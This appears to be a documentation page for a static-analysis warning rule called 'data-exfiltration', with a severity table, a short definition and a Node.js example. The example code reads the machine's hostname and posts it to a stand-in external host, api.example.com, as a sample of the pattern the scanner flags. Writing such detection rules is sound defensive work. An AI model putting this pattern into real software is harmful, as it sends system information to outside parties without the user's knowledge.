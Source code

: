 # Data exfiltration 

| Code | Severity | i18n | Experimental |
| --- | --- | --- | :-: |
| data-exfiltration | `Warning` | `sast_warnings.data_exfiltration` | ❌ | 

## Introduction

Data exfiltration is the unauthorized transfer of sensitive data from a computer or network to an external location. This can occur through malicious code, insider threats, or compromised systems.

## Example

```js
import http from "http";
import os from "os";

const postData = os.hostname();

const options = {
  hostname: 'api.example.com',
  port: 80,
  path: '/users',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': Buffer.byteLength(postData)
  }
};

const request = http.request; 

const req = request(options, (res) => {
  console.log(`Status: ${res.statusCode}`);
  console.log(`Headers: ${JSON.stringify(res.headers)}`);
  
  res.setEncoding('utf8');
  res.on('data', (chunk) => {
    console.log(`Response: ${chunk}`);
  });
});

req.on('error', (e) => {
  console.error(`Request error: ${e.message}`);
});

req.write(postData);
req.end();
```